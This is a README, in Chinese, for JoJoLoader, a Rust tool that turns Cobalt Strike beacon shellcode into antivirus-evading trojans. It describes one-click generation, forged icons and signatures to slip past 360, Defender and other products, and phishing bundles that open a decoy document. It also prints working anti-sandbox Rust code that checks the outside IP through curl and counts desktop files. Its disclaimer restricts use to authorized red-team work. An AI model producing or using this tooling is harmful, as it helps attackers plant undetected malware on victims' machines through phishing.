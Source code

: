 ![JoJoLoader](https://github.com/Pizz33/JoJoLoader/assets/88339946/dd259365-7334-43df-aee5-2d53d39c0fa9)
# JoJoLoader

助力红队成员一键生成免杀木马，使用rust实现 (by_hyyrent)

Help Redteam members generate Evasive Anti-virus software Trojan

开发背景
---

由于近年使用go来开发loader越来越普遍，导致杀软对go编译程序静态查杀力度增大，尤其是某数字杀软

对之前的go免杀项目千机多次优化后，发现效果仍不太理想，决定重构转投入rust的怀抱，因此有了此项目的诞生！

使用方式
---

与之前开发的千机一样，同样是支持一键化生成，生成自动替换图标签名

生成`stageless payload`

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/49ddd939-32c3-495f-8ab7-a6f649a3a138)

把 `beacon_x64.bin` （习惯使用4.7以上版本的CS，默认名称即是，其他版本自行改名）放置在当前目录下

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/294efecb-b0bf-45cc-afac-7a107cac3b14)

点击 `一键生成.bat`，等待免杀木马生成

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/6ad29be8-7a42-4348-8606-113caee887f0)

输出免杀木马在 `output` 文件夹下，随机六位数命名

其中sign标签文件为自动替换签名后的免杀木马，添加图标和签名最大化bypassQVM

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b30c675-acb4-40ae-9045-1d92afbc97b7)

钓鱼场景-释放正常文档
---

贴合实战钓鱼场景，支持正常文件释放，捆绑文档存放在 `bundle` 文件夹下

默认放置打开损坏文档，实战根据需求自行修改代码

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/4ca87739-3dfc-4a07-bda0-0cf5b0c90505)

如果不需要捆绑文件，把对应行注释即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b5b4ed6-5f7f-431c-9502-be82a31dd74b)

程序图标
---

在 static 目录下放置了四个常见图标，可修改`icon.rc`对应名称进行调用

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/9480ea64-e78f-4ce3-bda7-a2a6bc451688)

免杀效果展示
---
**360和火绒**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/b6fb7409-4560-493c-bf2e-a3198837ca70)

**360杀毒**

装了杀毒之后的360性能变强，qvm有时很玄学，如若碰到QVM情况尝试更换图标

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bfc2da65-49e7-4a97-bb83-9c0420edb034)

**defender**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f6c49329-8cd9-48d7-af33-130fa165c3ee)

**微步**

项目发布时现测试，测试结果为安全

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/1ebe6cba-b85e-4964-843a-1f54a279f591)

卡巴斯基 ESET

国外edr会扫描内存，需要对bin进行二开，单靠loader局限性很大，以下测试是基于二开的bin

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f5c66ab3-9034-49af-b01d-a7bc4bf12fc7)

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/5ce2e534-d1cb-4865-898b-6187dbf84d3d)

环境安装
---
https://www.rust-lang.org/zh-CN/tools/install

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/a1b8b73a-5545-4797-b2d3-b2605640b7a7)

下载安装相应的版本，双击运行，默认选择模式1进行安装，然后配置环境变量即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bb0a690c-1703-4b49-8b43-20b70de024a8)

如若安装后编译失败运行以下命令

```
rustup default stable-x86_64-pc-windows-msvc
```

反沙箱
---
反沙箱不是越多越好，只保留比较好用的两个，兼容绝大部分环境，并且尽量避免上传沙箱后虚拟主机上线

### 检查出口 IP ###

```
fn ip() {
    let output = Command::new("cmd")
        .args(&["/c", "curl -s https://myip.ipip.net/"])
        .creation_flags(CREATE_NO_WINDOW)
        .output()
        .expect("Failed to execute command");

    if !output.status.success() {
        std::process::exit(1);
    }

    let body = str::from_utf8(&output.stdout).expect("Failed to parse response");

    if body.contains("中国") {
    } else {
        std::process::exit(1);
    }
}
```

这个函数通过 `curl` 命令获取出口 IP，如果不在中国则退出程序

### 检查桌面文件数量 ###

```
fn check_desktop() {
    let desktop_path = get_desktop_path().expect("无法获取桌面路径");

    let entries = match fs::read_dir(&desktop_path) {
        Ok(entries) => entries,
        Err(_) => {
            std::process::exit(1);
        }
    };

    let file_count = entries.filter_map(|entry| entry.ok()).count();

    if file_count < 10 {
        std::process::exit(1);
    } else {
    }
}

fn get_desktop_path() -> Option<PathBuf> {
    let home_dir = dirs::home_dir()?;
    #[cfg(target_os = "windows")]
    return Some(home_dir.join("Desktop"));
    None
}
```
这个函数获取桌面路径并检查文件数量是否小于 10，如果小于 10 则退出程序

声明
---
- 仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

- 使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！
